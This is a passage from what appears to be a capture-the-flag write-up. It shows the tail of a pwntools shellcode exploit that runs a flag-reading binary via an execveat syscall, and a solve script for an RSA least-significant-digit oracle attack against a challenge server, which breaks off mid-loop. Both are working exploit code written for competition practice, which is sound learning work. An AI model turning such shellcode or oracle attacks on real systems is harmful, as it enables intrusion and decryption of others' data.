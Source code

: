 ```python=
mov rsi,0
syscall
mov rbx,rax
mov rbp,rax"""+
shellcraft.pushstr("#!/read_flag\n")+
shellcraft.syscall('SYS_write','rbp','rsp',13)+
"""
push 0
mov rsi,rsp
xor rdx,rdx
xor r10,r10
mov r8,0x1000
mov rax,322
syscall
""" +
shellcraft.exit(0)
))
r.interactive()

```

## Crypto

### oracle

RSA LSB oracle
```python
#!/usr/bin/env python3
from pwn import *
from Crypto.Util.number import *

r = remote('34.82.101.212', 20001)

r.sendlineafter('> ', '1')
c = int(r.recvline()[4:])
n = int(r.recvline()[4:])
e = 65537

def oracle(x):
    r.sendlineafter('> ', '2')
    r.sendlineafter('c = ', str(x))
    m = int(r.recvline()[4:])
    return m

L, H, R = 0, 1, 1

s = 1
while True:
    s = s * pow(3, e, n) % n
    m = oracle(s * c % n)

    L, H, R = 3 * L, 3 * H, 3 * R

    if m == 0:
        H -= 2
    elif m == (-n % 3):
        L += 1
        H -= 1
    else:
        L += 2

    if (n * H // R) - (n * L // R) < 2:
        break
```